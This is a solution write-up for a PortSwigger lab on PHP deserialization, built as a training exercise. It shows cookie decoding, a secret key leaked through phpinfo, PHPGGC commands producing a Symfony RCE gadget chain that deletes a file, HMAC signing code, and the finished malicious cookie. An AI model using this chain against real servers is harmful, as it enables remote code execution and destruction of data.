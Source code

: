 ```yaml
---
title: "Lab: Exploiting PHP deserialization with a pre-built gadget chain"
published: true
tags: [Web Application Security, Web Security Academy, Labs, Insecure Deserialization, Remote Code Execution, Gadget Chains, PHP, PHPGGC]
image: /blog/assets/supply-chain.png
description: "Solution for the Lab, Lab Description: This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains."
---
```


<br>
![](/blog/assets/supply-chain.png)
<br>
[^1]

<br>
### Lab Link
[Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### Lab Description
* * *
<br>
This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization[^2] using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

<br>
### Solutions
* * *
<br>
### Solution 1: My Solution
It is recommended to use Linux or a Unix-based operating system for using pre-built gadget chain tools like PHPGGC for PHP or Ysoserial for Java because of powerful bash command tools that are already in your arsenal or can be downloaded easily. So let's begin.

At first, let's get more information by browsing lab pages, when we log in with `wiener:peter` credentials, we see a session cookie in Burp like this:

```
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22e14415c3060a4b056821d84317015c0d8e63b648%22%7D
```

It is a URL-encoded string, which when decoded in Burp decoder we get this:

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==","sig_hmac_sha1":"e14415c3060a4b056821d84317015c0d8e63b648"}
```

As you can see, it seems that the token part is signed with hmac_sha1 algorithm. Also the token part in this string is base64-encoded, when decoded it is:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vklolvd6l8l207gs0wufk8ldvmw54evp";}
```

It is a serialized PHP object. So we can test if there is any insecure deserialization vulnerability that we can exploit, Since it is a signed session cookie, if we want to edit this serialized object, we need the key for the hash algorithm to sign our payload value so we need to search for clues of the key used. When surfing lab pages, in the source of the website we can find this commented line:

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

so we use this link to open the `phpinfo` page, in this page we can find the secret key:

![](/blog/assets/web-security-academy-php-deserialization-secret-key.png)

We test it to make sure this is the key that is used for signing the session cookie.

With this command you can sign a value:

```bash
echo -n "value" | openssl sha1 -hmac "key"
```

We can test this:

```bash
echo -n "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==" | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd"
```

When we run this code we get this signed value:
`e14415c3060a4b056821d84317015c0d8e63b648` and check it with the "sig_hmac_sha1" value in the decoded session cookie above and we see the values are matched, So we can use this secret key to hash our own serialized payload.

Also in the `/cgi-bin/phpinfo.php` page above we can see that the website is using Zend Engine:

![](/blog/assets/web-security-academy-php-deserialization-zend-engine.png)

Please pay attention not to confuse Zend engine with Zend Framework so we need to find out more clues about what PHP framework is used so that we can create an appropriate payload for it.

When the session cookie is manipulated in Burp repeater, an error page is returned in response and we get our clue in the error description:

```
Internal Server Error: Symfony Version: 4.3.6
```

So the website is using Symfony framework for PHP. With all this information, we can create our final payload, we use PHPGGC tool to build our payload, first download this tool from its Github page[^3].

Use this command to find related payloads for Symfony framework:

```bash
./phpggc -l symfony
```

We get this list:

![](/blog/assets/web-security-academy-php-deserialization-phpggc.png)

We start from the first RCE command in the list and test to see which one is working.

We use the secret key found in our bash command, This bash command is created to do multiple tasks and create a final payload:

```bash
command=$(./phpggc -f -b Symfony/RCE1 "rm /home/carlos/morale.txt");x=$( echo -n $command);y=$(echo -n $x | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd" | cut -c 14-);urlencode '{"token":"'$x'","sig_hmac_sha1":"'$y'"}'
```

You can substitute your desired PHPGGC command in the above code and also your own secret key that you've found and get the resulting payload in the correct final format.

In the above command:

`-n` in `echo` command is to remove the trailing newline characters.

`-b` in `phpggc` is to base64 encode the gadget chain.

`-f` in `phpggc` is to fast destruct. Here is the description of this flag from PHPGGC Github page:

"PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. I'd recommend using it for every `__destruct` vector, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first."

So it is recommended to use this flag.

`cut -c 14-` command cuts the resulting string because the result of the signed value of `openssl` command is something like:

```bash
SHA1(stdin)= e14415c3060a4b056821d84317015c0d8e63b648
```

And we should begin at character 14 and remove the additional beginning characters of `SHA1(stdin)= `

So we get this final payload from the above command:

```
%7B%22token%22%3A%22YToyOntpOjc7Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO31pOjc7aTo3O30%3D%22%2C%22sig_hmac_sha1%22%3A%22e6496d1876437637e6aca6a408cc1b7281bec1fd%22%7D
```

We replace this string with the session cookie in Burp repeater and Carlos's `morale.txt` file is deleted and the lab is solved!

<br>
### Solution 2: Web Security Academy's Solution
1. Log in and send a request containing your session cookie to Burp Repeater. Highlight the cookie and look at the **Inspector** panel.

2. Notice that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.

3. Copy the decoded cookie from the Inspector and paste it into Decoder.

4. In Decoder, highlight the token and then select **Decode as > Base64**. Notice that the token is actually a serialized PHP object.

5. In Burp Repeater, observe that if you try sending a request with a modified cookie, an exception is raised because the digital signature no longer matches. However, you should notice that:

  - A developer comment discloses the location of a debug file at `/cgi-bin/phpinfo.php`.
  - The error message reveals that the website is using the Symfony 4.3.6 framework.

{:start="6"}
6. Request the `/cgi-bin/phpinfo.php` file in Burp Repeater and observe that it leaks some key information about the website, including the `SECRET_KEY` environment variable. Save this key; you'll need it to sign your exploit later.

7. Download the "PHPGGC" tool and execute the following command:

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's `morale.txt` file.

{:start="8"}
8. You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. You can use the following PHP script to do this. Before running the script, you just need to make the following changes:

  - Assign the object you generated in PHPGGC to the `$object` variable.
  - Assign the secret key that you copied from the `phpinfo.php` file to the `$secretKey` variable.

```php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

This will output a valid, signed cookie to the console.

{:start="9"}
9. In Burp Repeater, replace your session cookie with the malicious one you just created, then send the request to solve the lab.

<br>
### _External Links_
* * *
* #### [Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### _References_
* * *
[^1]: Icon made by [Freepik](https://www.flaticon.com/authors/freepik) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Insecure deserialization \| Web Security Academy](https://portswigger.net/web-security/deserialization)
[^3]: [PHPGGC: PHP Generic Gadget Chains](https://github.com/ambionics/phpggc)
